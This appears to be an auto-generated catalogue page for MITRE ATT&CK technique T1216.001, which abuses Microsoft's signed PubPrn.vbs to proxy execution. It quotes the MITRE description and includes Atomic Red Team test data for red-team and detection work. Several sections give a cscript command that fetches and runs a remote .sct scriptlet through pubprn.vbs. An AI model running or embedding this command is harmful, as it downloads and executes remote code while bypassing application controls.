
# PubPrn

## Description

### MITRE Description

> Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1216/001

## Potential Commands

```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"
```

## Commands Dataset

```
[{'command': 'cscript.exe /b '
             'C:\\Windows\\System32\\Printing_Admin_Scripts\\en-US\\pubprn.vbs '
             'localhost '
             '"script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"\n',
  'name': None,
  'source': 'atomics/T1216.001/T1216.001.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Signed Script Proxy Execution: Pubprn': {'atomic_tests': [{'auto_generated_guid': '9dd29a1f-1e16-4862-be83-913b10a88f6c',
                                                                                     'description': 'Executes '
                                                                                                    'the '
                                                                                                    'signed '
                                                                                                    'PubPrn.vbs '
                                                                                                    'script '
                                                                                                    'with '
                                                                                                    'options '
                                                                                                    'to '
                                                                                                    'download '
                                                                                                    'and '
                                                                                                    'execute '
                                                                                                    'an '
                                                                                                    'arbitrary '
                                                                                                    'payload.\n',
                                                                                     'executor': {'command': 'cscript.exe '
                                                                                                             '/b '
                                                                                                             'C:\\Windows\\System32\\Printing_Admin_Scripts\\en-US\\pubprn.vbs '
                                                                                                             'localhost '
                                                                                                             '"script:#{remote_payload}"\n',
                                                                                                  'name': 'command_prompt'},
                                                                                     'input_arguments': {'remote_payload': {'default': 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct',
                                                                                                                            'description': 'A '
                                                                                                                                           'remote '
                                                                                                                                           'payload '
                                                                                                                                           'to '
                                                                                                                                           'execute '
                                                                                                                                           'using '
                                                                                                                                           'PubPrn.vbs.',
                                                                                                                            'type': 'Url'}},
                                                                                     'name': 'PubPrn.vbs '
                                                                                             'Signed '
                                                                                             'Script '
                                                                                             'Bypass',
                                                                                     'supported_platforms': ['windows']}],
                                                                   'attack_technique': 'T1216.001',
                                                                   'display_name': 'Signed '
                                                                                   'Script '
                                                                                   'Proxy '
                                                                                   'Execution: '
                                                                                   'Pubprn'}}]
```

# Tactics


* [Defense Evasion](../tactics/Defense-Evasion.md)


# Mitigations


* [Execution Prevention](../mitigations/Execution-Prevention.md)


# Actors


* [APT32](../actors/APT32.md)

